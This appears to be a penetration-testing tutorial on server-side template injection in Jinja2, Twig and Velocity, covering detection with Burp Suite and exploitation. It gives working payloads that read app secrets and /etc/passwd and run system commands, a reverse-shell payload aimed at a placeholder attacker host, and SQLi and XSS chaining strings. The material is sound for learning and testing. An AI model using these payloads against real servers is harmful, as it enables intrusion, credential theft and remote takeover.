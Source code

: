 # 👀 SSTI

Server-Side Template Injection (SSTI) is a critical vulnerability where an attacker can inject template code into a web application’s template engine, causing it to be executed server-side. This can lead to severe security issues, including **information disclosure**, **remote code execution (RCE)**, and **local file inclusion (LFI)**.

***

### **1. Context and Overview**

#### What Is SSTI?

A **template engine** is responsible for rendering dynamic content by merging templates (pre-defined HTML) with user input or data from a database. Common examples include **Jinja2** for Python (used in Flask/Django), **Twig** for PHP, and **Velocity** for Java-based applications. These engines allow dynamic content to be generated based on user inputs or system data.

**SSTI** occurs when the application **fails to sanitize** user input properly, allowing an attacker to inject malicious template syntax. This can result in various attacks, such as reading sensitive files, executing arbitrary code, or even compromising the entire server.

***

### **2. Identifying SSTI Vulnerabilities**

Identifying SSTI vulnerabilities is similar to detecting **SQL injection** or **Cross-Site Scripting (XSS)**. The goal is to inject special characters or expressions that the template engine will try to evaluate.

#### **Common Injection Syntax for Template Engines:**

* **Jinja2 (Python)**: `{{ ... }}`
* **Twig (PHP)**: `{{ ... }}`
* **Velocity (Java)**: `${ ... }`

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="https://portswigger.net/web-security/server-side-template-injection"><strong>https://portswigger.net/web-security/server-side-template-injection</strong></a></p></figcaption></figure>

#### **Testing for SSTI:**

Look for places where user input is incorporated into templates. The most common input fields to test include:

* **Form Inputs** (e.g., search bars, login forms)
* **URL Parameters** (e.g., `?name={{ user_name }}`)
* **HTTP Headers** (e.g., custom headers, cookies)
* **File Uploads** (e.g., image metadata or document-based templates)

#### **Burp Suite Example:**

Let’s start with an example using **Burp Suite** to intercept and manipulate HTTP requests.

**Request:**

Imagine we’re testing a login form that takes a `username` parameter and outputs a personalized greeting:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username=vautia&password=testpassword
```

**Injection:**

Inject the following SSTI payload in the `username` parameter to test for template processing:

```http
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40

username={{7*7}}&password=testpassword
```

**Response:**

After sending the request, the server responds with the following:

```html
Hello 49! Welcome to the site.
```

This reveals that the application is processing the input as a template expression, indicating an **SSTI vulnerability**.

***

### **3. Exploiting SSTI: Common Scenarios**

Once SSTI is identified, attackers can leverage various techniques to exploit the vulnerability.

#### **Scenario 1: Information Disclosure**

An attacker can use SSTI to expose internal application configurations or secrets, such as database credentials, environment variables, or API keys.

**Example Payload (Jinja2):**

```plaintext
{{ config.items() }}
```

**Response:**

```plaintext
[('DEBUG', True), ('SECRET_KEY', 'randomkey1234'), ('SQLALCHEMY_DATABASE_URI', 'mysql://user:password@localhost/db')]
```

This reveals sensitive configuration data.

***

#### **Scenario 2: Local File Inclusion (LFI)**

SSTI can be leveraged to read sensitive files, such as `/etc/passwd` on Linux systems or application logs, if the template engine has access to the filesystem.

**Example Payload (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.open('/etc/passwd').read() }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

This exposes the contents of `/etc/passwd`, potentially revealing user accounts and system information.

**Example Payload (Twig):**

```plaintext
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

**Response:**

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

***

#### **Scenario 3: Remote Code Execution (RCE)**

The most severe impact of SSTI is remote code execution. This allows attackers to run arbitrary commands on the server, potentially compromising the entire system.

**Example Payload (Jinja2):**

Executing the `id` command to get the user context:

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

This confirms that the attacker can execute commands on the server.

**Example Payload (Twig):**

In **Twig**, you can use the `filter('system')` function to execute arbitrary system commands:

```plaintext
{{ ['id'] | filter('system') }}
```

**Response:**

```plaintext
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Advanced Remote Code Execution (RCE):**

Attackers can escalate RCE to more dangerous payloads, such as reverse shells or data exfiltration.

**Reverse Shell Example (Jinja2):**

```plaintext
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -i >& /dev/tcp/attacker_ip/4444 0>&1').read() }}
```

This command attempts to open a reverse shell back to the attacker's machine at IP `attacker_ip` on port `4444`.

***

### **4. Advanced Payloads and Complex Exploitation**

#### **Chaining SSTI with Other Vulnerabilities**

In some cases, SSTI can be chained with other vulnerabilities, like **SQL Injection (SQLi)** or **Command Injection**, to achieve greater control over the application.

**SSTI + SQL Injection (SQLi):**

Imagine an application that uses template injection to build SQL queries. If the application is also vulnerable to **SQL injection**, an attacker can combine both vulnerabilities to extract sensitive data.

```plaintext
{{ config['SECRET_KEY'] }}' OR 1=1 --
```

This could reveal the secret key while bypassing login authentication by exploiting the SQLi part.

**SSTI + XSS:**

An attacker can inject **Cross-Site Scripting (XSS)** payloads into the template, which can then be executed in other users' browsers.

```plaintext
{{ "<script>alert('XSS')</script>" }}
```

This injects malicious JavaScript into the page, which gets executed when another user visits the site.
